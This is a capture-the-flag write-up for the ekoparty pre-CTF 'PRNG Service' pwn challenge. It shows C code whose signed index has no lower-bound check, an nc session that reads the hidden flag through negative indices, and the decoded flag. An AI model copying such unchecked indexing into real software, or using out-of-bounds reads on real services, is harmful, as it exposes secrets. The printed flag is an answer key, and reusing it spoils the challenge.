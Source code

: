 ## ekoparty_pre-ctf: pwn25

----------
## Challenge details
| Contest        | Challenge     | Category  | Points |
|:---------------|:--------------|:----------|-------:|
| ekoparty_pre-ctf | PRNG Service | Pwn | 25  |


*Description* 
>This is our PRNG service
>running at:
>nc challs.ctf.site 20003 

----------
## Write-up

We get the following C code:

```C
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <answer.h>

int main()
{

        signed int i;
        unsigned int base, try, rnd[128];

        printf("Welcome to PRNG service\nPlease wait while we generate 64 random numbers...\n");
        fflush(0);
        sleep(2);
        strcpy((char *)&rnd[0], ANSWER);
        srandom(1337);
        base = 64;
        for (i = 0; i < 64; i++) rnd[base + i] = random();
        printf("Process finished\n");
        fflush(0);
        try = 0;
        while (try < 10) {
                printf("Choose a number [0-63]?");
                fflush(0);

                scanf("%d", &i);
                fflush(0);

                if (i < 64) {
                        printf ("Your number is: 0x%08x\n", rnd[base + i]);
                } else {
                        printf("Index out of range\n");
                }
                try++;
                fflush(0);

        }
        printf ("Thank you for using our service\n");
        fflush(0);

        return 0;
}
```

Since i is a signed int we can enter negative values to get rnd[0] from memory

```
$ nc challs.ctf.site 20003 
Welcome to PRNG service
Please wait while we generate 64 random numbers...
Process finished
Choose a number [0-63]?-64
Your number is: 0x7b4f4b45
Choose a number [0-63]?-63
Your number is: 0x7474696c
Choose a number [0-63]?-62
Your number is: 0x655f656c
Choose a number [0-63]?-61
Your number is: 0x6169646e
Choose a number [0-63]?-60
Your number is: 0x6e615f6e
Choose a number [0-63]?-59
Your number is: 0x69735f64
Choose a number [0-63]?-58
Your number is: 0x64656e67
Choose a number [0-63]?-57
Your number is: 0x6e312d5f
Choose a number [0-63]?-56
Your number is: 0xb7007d74
```

Which decodes to: EKO{little_endian_and_signed_-1nt}

The flag is:

```
EKO{little_endian_and_signed_-1nt}
```
